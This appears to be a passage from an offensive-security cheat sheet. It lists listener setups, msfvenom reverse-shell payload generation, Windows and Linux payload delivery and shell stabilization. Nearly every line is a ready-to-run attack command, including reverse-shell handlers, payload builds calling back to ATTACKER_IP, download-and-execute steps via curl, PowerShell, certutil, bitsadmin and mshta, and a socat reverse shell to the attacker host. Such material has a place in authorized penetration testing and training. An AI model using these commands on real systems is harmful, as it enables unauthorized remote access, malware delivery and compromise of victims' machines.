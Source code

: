 ## 3. Listeners and Handlers
- Netcat listener:
  - nc -lvnp LISTEN_PORT
- Ncat (TLS support):
  - ncat -lvnp LISTEN_PORT --ssl
- Socat listener with TTY:
  - socat file:`tty`,raw,echo=0 tcp-listen:LISTEN_PORT,reuseaddr
- Metasploit multi/handler (example for windows/x64/meterpreter/reverse_https):
  - msfconsole -q
  - use exploit/multi/handler
  - set PAYLOAD windows/x64/meterpreter/reverse_https
  - set LHOST ATTACKER_IP
  - set LPORT 443
  - set EnableStageEncoding true
  - run -j

## 4. Payload Generation (msfvenom and others)
- msfvenom basics:
  - List payloads: msfvenom -l payloads | grep meterpreter
  - Windows x64 EXE reverse HTTPS:
    - msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ATTACKER_IP LPORT=443 -f exe -o revhttps.exe
  - Linux x64 ELF reverse TCP:
    - msfvenom -p linux/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf -o revtcp.elf
  - Raw shellcode (x64):
    - msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f raw -o sc.bin
  - Powershell command:
    - msfvenom -p windows/x64/powershell_reverse_tcp LHOST=IP LPORT=PORT -f psh -o rs.ps1
- Donut for .NET/PE to shellcode:
  - donut -a 2 -f 1 -o payload.bin some.exe
- Nim/Go payloads: build static binaries to reduce dependencies.

## 5. Delivery Methods
- Web delivery:
  - Simple HTTP server: python3 -m http.server 80
  - Impacket smbserver.py SHARE .
  - Python HTTP download (Linux): curl -O http://ATTACKER_IP/payload; wget http://ATTACKER_IP/payload
  - PowerShell download:
    - powershell -c "iwr http://ATTACKER_IP/p.exe -OutFile p.exe"
    - powershell -c "(New-Object Net.WebClient).DownloadFile('http://ATTACKER_IP/p.exe','p.exe')"
- Living-off-the-land (Windows):
  - certutil -urlcache -split -f http://ATTACKER_IP/p.exe p.exe
  - bitsadmin /transfer t /download /priority foreground http://ATTACKER_IP/p.exe p.exe
  - mshta http://ATTACKER_IP/payload.hta
- SMB/UNC paths:
  - \ATTACKER_IP\SHARE\payload.exe
- HTML application (HTA), JS, VBS droppers; Office macros (with caution).

## 6. Shell Stabilization and Upgrade
- Python PTY:
  - python -c 'import pty; pty.spawn("/bin/bash")'
  - export TERM=xterm; stty rows 50 cols 200
- Socat full TTY:
  - On attacker: socat tcp-listen:4444,reuseaddr file:`tty`,raw,echo=0
  - On target: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
- rlwrap for history and shortcuts:
  - rlwrap nc -lvnp 4444
- Fix backspace/CTRL-C:
  - stty -a; stty raw -echo; fg; reset
